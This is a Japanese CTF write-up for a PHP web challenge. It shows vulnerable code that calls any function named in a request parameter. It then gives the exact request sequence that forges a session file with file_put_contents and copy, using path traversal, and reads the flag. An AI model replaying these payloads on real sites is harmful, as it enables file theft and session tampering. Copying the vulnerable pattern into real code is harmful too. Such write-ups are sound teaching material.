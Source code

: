 ```php
                                 
                                // Captcha from math op 
                                function verifyFromMath($file, $response) { 
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
                                    else return false; 
                                } 
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){ 
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
                                } 
                                break; 

                        } 
                ?> 
            </div> 
        </div> 
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p> 
        <p><a href="/phpinfo.php">Show our configurations</a></p> 
    </body> 
</html> 
```

`?page=contactus` で `$_SESSION['challenge']` を初期化、`?page=captcha` で `$_SESSION['challenge']` というファイルを作成できるようです。

また、`?page=captcha-verify` で `$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);` という形で好きな関数を好きな引数 (ただし、第一引数は直接変更できない) で呼ぶことができるようです。これは作りかけのサイトですが、`$_SESSION['challenge']` に `123*456` のような式を入れて、`?page=captcha-verify&method=verifyFromMath&answer=56088` のようにして CAPTCHA として使う予定のようです。

さて、なんとかして第一引数を好きなものに変えられないか考えてみましょう。

`$_SESSION['challenge']` が変更されるのは `?page=contactus` の `$_SESSION['challenge'] = rand(100000,999999);` のみですが、なんとかしてこれ以外のものにできないでしょうか。

セッションを好きな内容に変更するには、`$_SESSION['key'] = value` のように PHP のコード中でいじる、セッションデータが格納されているファイルを直接いじるといった方法が考えられます。今回は後者の方法でやっていきましょう。

まず `?page=captcha-verify&method=file_put_contents&answer=challenge|s:4:"hoge";` にアクセスすると `./(100000 ~ 999999 の数値)` に `challenge|s:4:"hoge";` が書き込まれます。`phpinfo()` の結果からセッションデータは `/var/lib/php/sessions/` にあると分かっているので、`?page=captcha-verify&method=copy&answer=../../../../var/lib/php/sessions/sess_(セッション ID)` にアクセスしてセッションデータを書き換えます。

この後 `?page=captcha` にアクセスすると `hoge` と表示され、セッションデータが書き換えられたことが確認できました。

あとは `challenge|s:16:"../../../../flag";` をセッションデータとして書き込み、`?page=captcha-verify&method=readfile&answer=hoge` にアクセスするとフラグが得られました。

```
INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}
```

### [web 80] Smart-Y
